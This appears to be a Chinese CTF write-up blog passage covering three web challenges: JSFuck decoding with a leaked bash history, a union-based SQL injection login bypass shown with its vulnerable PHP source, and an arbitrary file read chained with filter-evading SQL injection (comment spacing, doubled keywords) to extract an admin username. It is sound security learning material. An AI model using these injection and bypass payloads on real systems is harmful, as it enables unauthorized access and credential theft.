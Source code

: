 ### 综合题
进入页面，有JSFuck encode的数据，直接扔到F12控制台里面运行，直接出现一个新的页面URL`1bc29b36f623ba82aaf6724fd3b16718.php`
进入页面有一个提示信息，查看响应包，里面有`tip：history of bash`
扔到google查一下，知道了 .bash_history 文件
访问得到一条命令带有压缩包文件flagbak.zip，下载得到flag

这题目挺好的，至少我在里面学会了
**仔细观察响应包里的信息，说不定是最近爆出来的CVE，或者一些蛛丝马迹，对于没有思路的时候，非常重要吧，我经常粗略过，便放过了很多可能。**


<Br />

### SQL注入2
```php
if($_POST[user] && $_POST[pass]) {
   mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $user = $_POST[user];
  $pass = md5($_POST[pass]);
  $query = @mysql_fetch_array(mysql_query("select pw from ctf where user='$user'"));
  if (($query[pw]) && (!strcasecmp($pass, $query[pw]))) {
      echo "<p>Logged in! Key: ntcf{**************} </p>";
  }
  else {
    echo("<p>Log in failure!</p>");
  }
}
```
根据提示，审计源码，直接得出payload
```
[POST DATA]
user=' union select md5(1)#&pass=1

自己根据sql语句构建一个密码，两者对等即可
```
<Br />

### 综合题2
一直对于综合型题目没有很好的思路...既然是CTF题目，必定有解，并且题目的构成也不太复杂
把大致页面浏览，寻找一些蛛丝马迹，得到突破口
其实首页的功能来看，有几个思路
 - sqli
 - xss(提示说不是XSS)
 - 源码泄漏，CVE....

不过后来在寻找的过程中，发现`http://cms.nuptzj.cn/about.php?file=sm.txt`
并且给出了提示
 - sae的information_schema表没法检索（试了下，的确）
 - admin表结构
 - 一些文件的功能说明

利用about.php的任意文件读取漏洞，顺着先查看`index.php`,`about.php`,`so.php`等源码(显示出的源码，乱糟糟的,我是右键源代码，在用在线html实体转换，到sublime编辑器看)
审计分析得出`index.php`中利用信息较少
在是`about.php`中带有一个字符串`loginxlcteam`，猜测不是路径就是文件名
尝试访问，发现一个后台管理的登录系统`http://cms.nuptzj.cn/loginxlcteam/`，尝试了一下弱口令，无果
那么接下来已经感觉有一条明确的路线，通过sqli注入得到管理员信息，登录到后台
继续审计源码`so.php`，发现可注入，但是有`HTTP头验证`和`antiinject.php`的规则的过滤
继续审计源码`antiinject.php`，发现关键字过滤完全可以绕过，特殊符号过滤不行
接下来尝试SQL注入得到后台帐号密码，根据admin文件结构
```
/**/绕过空格过滤，双写绕过关键字过滤
soid=9999/**/uniunionon/**/selecselectt/**/1,2,3,4 //得到第二列在搜索页面中可显，并且列名为4

先假设只有一条记录，然后真的只有一条
soid=9999/**/uniunionon/**/selecselectt/**/1,usernamnamee,3,4/**/from/**/admiadminn //得到用户名
```